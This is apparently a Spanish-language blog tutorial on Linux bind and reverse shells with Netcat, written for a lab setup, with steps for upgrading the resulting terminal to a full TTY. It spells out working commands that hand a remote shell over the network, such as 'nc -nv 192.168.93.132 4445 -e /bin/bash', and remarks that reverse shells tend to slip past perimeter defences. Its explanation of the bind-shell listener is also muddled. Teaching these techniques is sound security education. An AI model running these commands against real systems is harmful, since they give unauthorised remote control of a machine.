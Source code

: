 ```yaml
---
layout: post
author: Isui Martinez
title: Bind & ReverShell Linux
---
```

### Shells del Sistema Operativo
El Shell (TERMINAL) es la capa más externa del sistema operativo, este incorpora un lenguaje de programación para controlar los procesos y archivos, además de interactuar con los programas. Es en términos generales el modo de interactuar con el sistema operativo, mediante comandos. Ejemplos de Shell, son la terminal de Linux, CMD, y PowerShell de Windows.

![](/images/bindandrevershellLinux/Pasted image 20240601091450.png)

### Netcat
Netcat es una herramienta que se ejecuta en la shell para crear conexiones entrantes y salientes mediante la capa de transporte del modelo TCP/IP por los protocolos TCP & UDP. Netcat ya viene instalada en Kali Linux y Parrot Security.

![](/images/bindandrevershellLinux/Pasted image 20240601092351.png)

El uso más común de Netcat es como cliente (del modelo cliente/servidor) para conectarse a un host (maquina objetivo) y puerto específico, es ahí cuando podemos establecer desde nuestro equipo una conexión remota con una maquina objetivo.

### Bind Shell
Bind Shell (Shell directa), es donde el atacante primero debe establecer una conexión hacia el objetivo (máquina victima) luego en la maquina objetivo se debe ejecutar Netcat para generar la shell. El principal problema de está opción es  debido a que la conexión es entrante y si en la red existe seguridad perimetral lo más probable es que sea bloqueada la conexión debido a estas herramientas de seguridad.
Los comandos que se ejecutaran son:
Maquina atacante (Kali) primero en modo escucha:
```
nc -lv 192.168.93.132 4444
```

La dirección IP es la de la maquina objetivo (ubuntu en esté caso), el puerto es cualquiera que no este ejecutando ningun servicio en los dos equipos, lo más comun es un puerto  del tipo efimero (puerto donde en envian solicitudes del lado del cliente), aquellos que no se ocupan.

En la maquina objetivo se coloca el siguiente comando después:

```
nc -lnp 4444 -e /bin/bash
```

Una vez establecida la conexión, se debe realizar el tratamiento de la terminal interactiva (TTY), para que funcione comodamente.
### Tratamiento de la TTY

Ingresar el comando (en nuestra terminal de atacante de Kali):
```
script /dev/null -c bash
```
Pulsar la combinación: `ctrl + z`
Escribir el comando:
```
stty raw -echo; fg
```
Pulsar `Enter` y escribir:
```
reset
```
Pulsar `Enter` y escribir:
```
reset xterm
```
Escribir:
```
export TERM=xterm
```
Ahora debemos colocar nuestra terminal en pantalla completa para trabajar más comodo en caso de comandos muy largos:
```
stty rows 30 columns 100
```

Hemos terminado el tratamiento de nuestra terminal interactiva.

### ReverseShell
Es muy parecido a realizar una BindShell, la diferencia en la conexión, en este caso la conexión se envia desde el objetivo hacia el atacante, por lo tanto como es una solicitud de salida, si llegara a existir una herramienta en la red, normalmente no lo detectaria.
Los comandos son:
El atacante coloca en modo escucha su maquina:
```
nc -lvp 4445
```

Y la maquina objetivo ejecuta la conexión reversa:
```
nc -nv 192.168.93.132 4445 -e /bin/bash
```

La dirección IP es la del atacante y el puerto en donde este se encuentra en escucha.

Luego establecer la ReverseShell se realiza nuevamete el tratamiento de la terminal interactiva, como se vio en el paso anterios (Tratamiento de la TTY).

